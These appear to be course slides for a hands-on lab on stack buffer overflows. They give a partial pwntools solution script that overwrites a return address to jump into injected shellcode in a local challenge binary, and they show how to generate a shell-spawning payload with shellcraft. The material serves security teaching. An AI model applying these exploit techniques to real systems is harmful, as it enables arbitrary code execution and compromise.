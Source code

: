 </div>

---


## :memo: hands-on (3): stack overflow & shellcode - solution (partial)

<div style="font-size: 0.8em">

```python
from pwn import *

shellcode = ... # put shellcode here (max 256 bytes)
buf1_addr = ... # put address of buf1 here
retaddr_offset = 72 # offset of return address from buf2

shellcode += b'\xcc' * (256 - len(shellcode)) # pad to 256 bytes

p = process('./chal3')

# this value is put into buf1
p.send(shellcode)
print(p.recv())

# this value is put into buf2
p.send(b'A' * retaddr_offset + p64(buf1_addr))  # overwrite return address

p.interactive()
```

</div>

---

## Shellcode generation - pwntools

pwntools has a functionality to generate shellcode: [shellcraft](http://docs.pwntools.com/en/stable/shellcraft.html) module

- Example for x86-64 Linux:
  ```python
  from pwn import *
  context.arch = 'amd64'    # set assembler environment

  # generate shellcode (assembly code)
  shellcode_asm = shellcraft.amd64.linux.sh()
  print(shellcode_asm)

  # assemble the shellcode
  shellcode_bin = asm(shellcode_asm)
  print(shellcode_bin.hex())
  ```

---